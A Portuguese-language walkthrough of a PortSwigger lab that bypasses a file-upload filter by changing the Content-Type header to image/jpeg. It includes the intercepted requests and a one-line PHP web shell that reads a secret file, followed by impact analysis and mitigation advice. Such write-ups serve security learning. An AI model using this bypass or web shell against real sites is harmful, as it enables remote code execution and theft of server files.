


# File Upload — Web Shell Upload via Content-Type Restriction Bypass

## Contexto

A aplicação tenta bloquear uploads de arquivos não permitidos verificando o `Content-Type` da requisição. O problema: esse valor é definido pelo cliente e pode ser livremente alterado. A validação acontece no header, não no conteúdo real do arquivo.

**Lab:** [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-content-type-restriction-bypass)

---

## Análise Inicial

Diferente do lab anterior, aqui a aplicação rejeitava uploads de `.php` diretamente. Salvar o `shell.php` com extensão `.jpg` também não funcionava — o código PHP não era executado, o servidor servia o arquivo como imagem.

A questão era: o que exatamente a aplicação estava validando?

---

## Exploração

Interceptei o upload de uma imagem `.jpg` legítima no Burp Proxy para observar a requisição:

```
Content-Disposition: form-data; name="avatar"; filename="shell.jpg"
Content-Type: image/jpeg
```

O servidor aceitou. Em seguida, fiz o upload do `shell.php` e interceptei a requisição antes de enviá-la ao servidor. O Burp mostrava:

```
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream
```

A única mudança necessária foi alterar o `Content-Type` de `application/octet-stream` para `image/jpeg` mantendo o `filename` como `shell.php` e o conteúdo PHP intacto:

```
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
```



O servidor validou o `Content-Type` declarado, aceitou o arquivo como imagem e armazenou o `shell.php` no diretório de avatars. Acessando diretamente a URL, o PHP foi executado e retornou a chave de Carlos.



---

## Diferença em relação ao lab anterior

No lab anterior não havia nenhuma validação — qualquer arquivo era aceito. Aqui existe uma tentativa de validação, mas baseada em dado controlável pelo cliente. O resultado prático é idêntico: RCE via web shell.

---

## Impacto

Validação baseada em `Content-Type` não oferece proteção real. O header é parte da requisição HTTP e pode ser alterado por qualquer cliente antes do envio — Burp, curl, Postman, qualquer ferramenta. Um arquivo PHP com `Content-Type: image/jpeg` continua sendo PHP quando executado pelo servidor.

---

## Mitigação

Validar o conteúdo real do arquivo no servidor, não o header declarado pelo cliente. Usar bibliotecas que inspecionam os bytes do arquivo (magic bytes) para determinar o tipo real. Armazenar uploads fora do document root e nunca servir arquivos de upload como código executável, independente da extensão ou Content-Type.

---

## Aprendizados

- `Content-Type` é controlado pelo cliente — nunca deve ser o único mecanismo de validação de upload.
- A diferença entre esse lab e o anterior é apenas onde a validação falha: ausência total vs. validação de dado falsificável. O impacto é o mesmo.
- Interceptar uma requisição legítima antes de testar o bypass é a abordagem correta — primeiro entenda o que o servidor aceita, depois falsifique isso.
